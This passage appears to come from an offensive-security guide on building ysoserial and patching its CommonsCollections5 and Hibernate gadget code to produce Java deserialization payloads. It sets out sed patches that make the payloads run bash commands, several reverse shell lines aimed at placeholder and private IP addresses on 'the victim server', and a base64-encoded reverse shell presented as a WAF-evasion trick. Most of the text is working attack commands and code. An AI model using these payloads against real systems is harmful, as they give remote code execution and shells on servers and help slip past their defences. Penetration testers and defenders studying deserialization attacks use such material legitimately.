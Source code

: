 #### 2.1. `ysoserial` setup

Building `ysoserial` from source:
```
# apt-get install maven -yqq
# git clone https://github.com/frohoff/ysoserial && cd ysoserial
# mvn clean package -DskipTests -Dhibernate5 # for Hibernate5 support
# mv target/ysoserial-*-SNAPSHOT-all.jar ~/ysoserial.jar && cd ~
```

Quick smoke test - Hibernate 5:
```
# java -Dhibernate5 -jar ysoserial.jar Hibernate1 'ls' > /tmp/hibernate5.serial
# file /tmp/hibernate5.serial && rm /tmp/hibernate5.serial
/tmp/hibernate5.serial: Java serialization data, version 5
```

Quick smoke test - Commons Collections 5:
```
# java -jar ysoserial.jar CommonsCollections5 'ls' > /tmp/collections5.serial
# file /tmp/collections5.serial && rm /tmp/collections5.serial
/tmp/collections3.serial: Java serialization data, version 5
```

#### 2.2. Some words on patching

To support complex commands, `ysoserial` needs to be patched from a case-to-case basis.

From: `https://github.com/summitt/burp-ysoserial`
```
... commands like the following command would fail to execute on the victim server in the original ysoserial ...
... to run complex commands that pipe command into other commands in java the arguments needs to be a string Array ...

/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1

The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like: Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});
```


#### 2.3. `ysoserial` patch 1 - `CommonsCollections5.java`

Since `burp-ysoserial` doesn't offer CommonsCollections5 (CC5) payload, so we need to fix the `ysoserial` manually.

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/CommonsCollections5.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name CommonsCollections5.java`
# grep -n 'final.*execArgs = new .*' $file
60:		final String[] execArgs = new String[] { command };
# grep -n 'new Class.*execArgs.*' $file
74:					new Class[] { String.class }, execArgs),
```

Applying the patch:
```
# sed -i '60s/.*/final String[] execArgs = new String[]{"\/bin\/bash", "-c", command};/' $file
# sed -i '74s/.*/new Class[] { String[].class }, new Object[]{execArgs}),/' $file
```

Note: payloads like `java -jar ysoserial.jar CommonsCollections5 "sleep 5"` will fail in this case because the command must be executed via `Runtime.getRuntime().exec("sleep 10").waitFor();` -  whereas the `waitFor()` is missing in the gadget's `Transformer` object.


#### 2.4. `ysoserial` patch 2 - Hibernate 5 (`waitFor()` gadget)

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/util/Gadgets.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name Gadgets.java`
# grep -n '\"\\");\";' $file
118:            "\");";
```

Applying the patch:
```
# sed -i '118s/.*/"\\").waitFor();";/' $file
```

Other patch could be applied for reverse shell:

```
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
```

Nice trick for WAF evasion:

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
